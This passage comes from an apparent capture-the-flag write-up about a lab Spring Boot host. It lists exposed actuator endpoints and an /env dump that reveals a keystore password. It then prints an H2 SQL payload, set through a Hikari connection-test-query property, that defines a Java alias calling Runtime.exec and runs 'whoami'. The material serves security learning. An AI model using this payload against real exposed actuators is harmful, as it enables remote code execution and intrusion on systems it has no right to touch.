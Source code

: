 ```
	},
	health-path: {
	href: "https://spring.thm/actuator/health/{*path}",
	templated: true
	},
	shutdown: {
	href: "https://spring.thm/actuator/shutdown",
	templated: false
	},
	env-toMatch: {
	href: "https://spring.thm/actuator/env/{toMatch}",
	templated: true
	},
	env: {
	href: "https://spring.thm/actuator/env",
	templated: false
	},
	mappings: {
	href: "https://spring.thm/actuator/mappings",
	templated: false
	},
	restart: {
	href: "https://spring.thm/actuator/restart",
	templated: false
	}
	}
}
```

We use the `ModHeader` chrome extension to set the forward header inside the browser. It's easier to browse around.

from `/env`
```
catalina.home:  "/tmp/tomcat.4725898427114420142.443"

sun.java.command: "/opt/spring/sources/new/spring-0.0.1-SNAPSHOT.jar --server.ssl.key-store=/opt/privcert.p12 --server.ssl.key-store-password=PrettyS3cureKeystorePassword123."

USER: "nobody"

SUDO_COMMAND: "/bin/su nobody -s /bin/bash -c /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java -Djava.security.egd=file:///dev/urandom -jar /opt/spring/sources/new/spring-0.0.1-SNAPSHOT.jar --server.ssl.key-store=/opt/privcert.p12 --server.ssl.key-store-password=PrettyS3cureKeystorePassword123."
```


I found this guide `https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database` which exploit the `/actuators/env` endpoint to get RCE.

We set the env variable `spring.datasource.hikari.connection-test-query` to an `SQL` statement :
```
CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);',HEXTORAW('007d'));CALL EXEC('whoami');
```
